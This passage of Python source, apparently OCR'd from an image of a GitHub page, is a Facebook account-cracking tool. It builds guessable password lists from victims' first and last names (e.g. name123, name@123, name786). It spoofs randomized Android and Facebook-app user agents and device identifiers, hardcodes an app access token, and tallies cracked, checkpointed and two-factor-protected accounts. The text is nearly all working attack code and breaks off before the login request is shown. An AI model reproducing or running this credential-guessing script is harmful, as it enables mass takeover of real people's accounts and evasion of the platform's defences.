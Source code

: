                         l1()
                        for user in fo:
                                ids,names = user.split('|')
                                first_name = names.rsplit(' ')[0]
                                try:
                                        last_name = names.rsplit(' ')[1]
                                except IndexError:
                                        last_name = 'Khan'
                                fs = first_name.lower()
                                ls = last_name.lower()
                                passlist = [fs+ls,fs+' '+ls,fs+'123',fs+'12345',fs+'1122',fs,fs+'1234',fs+'786',fs+'12',fs+'@123',fs+'@1234',fs+'@12345']
                                Aking.submit(rndm,ids,passlist)
                print('\033[1;37m')             
                print(' The process has completed')
                print(' Total OK/CP/2F: '+str(len(oks))+'/'+str(len(cps))+'/'+str(len(twf)))
                l1()
                input(' Press enter to back ')
def rndm(ids,passlist):
        global loop
        global oks
        sys.stdout.write('\r\r\033[1;37m [ AMAN ] [%s] [\033[1;37mOK : %s ] \033[1;37m'%(loop,len(oks)));sys.stdout.flush()
        try:
                for pas in passlist:
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        fbav = f'{random.randint(111,999)}.0.0.{random.randint(11,99)}.{random.randint(111,999)}'
                        fbbv = str(random.randint(111111111,999999999))
                        android_version = device['android_version']
                        model = device['model']
                        build = device['build']
                        fblc = device['fblc']
                        fbcr = sim_id
                        fbmf = device['fbmf']
                        fbbd = device['fbbd']
                        fbdv = device['fbdv']
                        fbsv = device['fbsv']
                        fbca = device['fbca']
                        fbdm = device['fbdm']
                        fbfw = '1'
                        fbrv = '0'
                        fban = 'FB4A'
                        fbpn = 'com.facebook.katana'
                     #   ua = 'Davik/2.1.0 (Linux; U; Android '+android_version+'.0.1; '+model+' Build/'+build+') [FBAN/'+fban+';FBAV/'+fbav+';FBBV/'+fbbv+';FBDM/{density=2.75,width=720,height=1640};FBLC/'+fblc+';FBRV/'+str(random.randint(000000000,999999999))+';FBCR/'+fbcr+';FBMF/'+fbmf+';FBBD/'+fbbd+';FBPN/'+fbpn+';FBDV/'+fbdv+';FBSV/'+fbsv+';FBOP/19;FBCA/'+fbca+';]'
                        gts = random.choice(['KH6','BE8','KG5p','CI7n','CI6n','CH6i','CI7n','BE6j', 'CI8n','CI6n','CH6i','KF6p','CH6', 'CH6n','CG6','CG6j'])
                        ua = f'Mozilla/5.0 (Linux; Android 12; TECNO {gts}) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/{random.randrange(111, 999)}.0.0.0 Mobile Safari/537.36 [FB_IAB/EMA;FBAV/{random.randrange(111, 999)}.0.0.{random.randrange(9, 99)}.{random.randrange(111, 999)};]'
                        random_seed = random.Random()
                        adid = str(''.join(random_seed.choices(string.hexdigits, k=16)))
                        device_id = str(uuid.uuid4())
                        secure = str(uuid.uuid4())
                        family = str(uuid.uuid4())
                        accessToken = '350685531728|62f8ce9f74b12f84c123cc23437a4a32'
                        xd =str(''.join(random_seed.choices(string.digits, k=20)))
                        sim_serials = f'["{xd}"]'